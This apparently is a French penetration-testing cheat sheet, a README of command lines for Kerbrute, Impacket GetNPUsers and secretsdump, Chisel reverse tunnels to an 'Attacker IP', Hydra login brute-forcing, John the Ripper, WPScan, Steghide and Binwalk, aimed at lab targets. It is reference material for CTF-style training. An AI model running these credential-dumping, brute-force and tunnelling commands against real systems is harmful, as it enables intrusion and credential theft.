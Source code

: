 - [Active Directory](#Active-Directory)
  - [Kerbrute](#Kerbrute)
  - [GetNPUUsers.py](#GetNPUUsers.py)
  - [Secretsdump.py](#Secretsdump.py)
- [Binwalk](#Binwalk)
- [Chisel](#Chisel)
- [Hydra](#Hydra)
  - [WEB](#WEB)
  - [SSH](#SSH)
  - [FTP](#FTP)   
- [JohnTheRipper](#JohnTheRipper)
- [Steghide](#Steghide)
- [WPSCAN](#WPSCAN)
- [7z Deziper avec password](#7z-Deziper-avec-password)


## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk

```
binwalk <image> -e
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
#### Port distant vers port local

```
./chisel.exe client 10.14.50.100:8001 R:2805:10.10.2.0:2805
```
`10.14.50.100`: Attacker IP
<br>
`8001`: Port établie lors de la création du serveur
<br>
<br>
`2805:10.10.2.0:2805` -> Bind le port 2805 de la machine Attacker au port 2805 de la machine distante 

<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
```
zip2john
ssh2john
rar2john
```

<br>

## Steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
